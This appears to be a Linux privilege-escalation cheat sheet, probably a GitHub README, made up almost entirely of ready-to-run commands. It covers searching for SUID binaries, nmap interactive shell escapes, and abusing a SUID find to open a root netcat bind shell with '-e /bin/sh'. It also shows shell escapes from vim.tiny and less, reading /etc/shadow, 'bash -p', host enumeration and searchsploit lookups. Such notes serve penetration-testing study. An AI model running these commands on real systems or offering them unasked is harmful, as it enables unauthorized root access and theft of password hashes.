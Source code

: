 
# Privillege Escalation

### ry the obvious - Maybe the user can sudo to root:

`sudo su`

### List all SUID files 

`find / -perm -4000 2>/dev/null`

`find / -user root -perm -4000 -print 2>/dev/null`

`find / -perm -u=s -type f 2>/dev/null`

`find / -user root -perm -4000 -exec ls -ldb {} \;`

Nmap version [2.02 - 5.21]

`nmap -V`

`nmap --interactive`

`nmap> !sh`


### Performing privilege escalation by misconfigured SUID

#### Find

`touch kitsun3sec` && `find kitsun3sec -exec whoami \;`

if root

`find kitsun3sec -exec netcat -lvp 5555 -e /bin/sh \;`

#### vim.tiny 

` vim.tiny /etc/shadow `

```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

#### Bash

`bash -p`

`whoami`

#### Less

```
less /etc/passwd
!/bin/sh
```

### Listing process

`ps aux`

`ps xaf`

### Determine the current version of Linux 

`cat /etc/issue`

`lsb_release -a`

### Determine more information about the environment

`uname -a`

## Searchsploit

`searchsploit linux 2.6`

`searchsploit centos 6`